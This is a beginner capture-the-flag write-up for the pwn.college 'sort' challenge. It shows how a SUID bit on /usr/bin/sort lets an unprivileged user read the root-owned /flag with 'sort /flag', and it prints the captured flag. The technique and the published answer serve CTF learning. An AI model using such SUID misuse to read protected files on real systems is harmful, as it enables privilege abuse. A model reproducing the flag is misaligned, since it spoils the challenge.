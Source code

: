 # Challenge Name: sort
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/sort`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/sort
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/sort
```

-The `s` in `-rws` indicates it's a SUID binary.
-`sort` runs with **root privileges**.

## 🚀 Exploitation

The `sort`  command in Linux arranges lines of text files (or piped output) in ascending or descending order. It’s extremely useful in log analysis, data cleanup, scripting, and even CTF challenges involving wordlists or text processing.
But, to read contents of /flag we can simply use:

```bash
sort /flag
```
sort will try to sort each line from the file by there first alphabet,but in ourcase /flag contains only one line, so it will simply print the flag

Output:
```
pwn.college{AyTuOOyY0-I60adHRaUmtNwAzUU.dhDNxwSM0IzMyEzW}
```


